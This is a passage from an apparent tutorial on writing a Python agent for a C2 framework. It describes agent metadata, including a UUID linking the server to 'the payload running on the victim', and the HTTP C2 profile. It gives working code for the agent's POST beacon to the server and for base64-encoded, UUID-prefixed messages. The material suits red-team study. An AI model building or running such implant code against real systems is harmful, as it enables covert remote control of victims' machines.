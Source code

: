 ```
                "pid":		# The PID of the process the agent is running on
                "uuid":,	# The UUID of the payload.  This one is super important as it links the payload metadata and listener in the server with the actual payload running on the victim
                "architecture": # The architecture of the OS the agent is running on
        }
```
This message will populate metadata about the agent on the server, to provide more information about what commands are available and allow better use of OPSEC utilities.  

###  C2 Profiles/HTTP
The way that the agent and server sends these messages back and forth is dictated by the C2 profile selected when generating the payload.  Examples of C2 profiles include HTTP, raw TCP, or even methods as strange as steganography in twitter image uploads.  The freedom here is almost limitless.  C2 profiles have their own development process and they must be implemented in the agents to be used in.  Since there is much complexity included in creating a new C2 Profile, I am going to use the standard HTTP C2 profile for this article. (But I might do my own C2 profile in the future!) 
The HTTP profile uses POST requests to communicate.  On the server's side, it runs a web server that listens for POST requests, which the agent makes to check in, with the agent to server message being the data in the POST body.  The server takes that information, and responds with the server to agent message in the POST response.  This way, no ports need to be opened or servers spun up on the agent's host, providing quieter and more universal execution. 

## Time to Code
Now that we know how the agent runs, we can start adding some actual code to our Python script.  Since sending messages back and forth between the server and the agent is the most integral task, I am going to get HTTP Post requests running first.  I did this in a function, so it can be used by many other parts of the code.  
```
def PostRequest(data):
	Headers = []
	for i in agent["Headers"]:		# Here is our first reference to the "agent" dictionary
		Headers.append({i["key"]:i['value']})
	try:
		r = rq.post(agent["Server"]+agent["URI"], data, Headers)
		return r.content
	except Exception as e:
		return e
```
This is a pretty simple function that uses requests (imported as rq) to send a post request with a body and headers.  The reason for the try/except block, is that we don't want the agent crashing in the event something goes awry.  It would be better to skip a command/task than completely lose access to the agent.  

### JSON, not Dictionaries
Anytime we send a message to the C2 server, it has to be encoded and in JSON format.  Since Python dictionaries are not the same as JSON, I made another function to convert from dictionaries to JSON and then encode it for transmission. 
```
def getEncodedJson(data,uuid):
	jsonData = json.dumps(data)
	sendData = uuid+str(jsonData)
	return base64.b64encode(sendData.encode())
```
Quick note: The second line of that function, that concatenates the uuid with the JSON data is another part of the messaging system.  Each time data is sent from the agent to the server, the first 36 characters must be the UUID of the agent, so it can be identified to the server before doing anything with the actual data sent.  
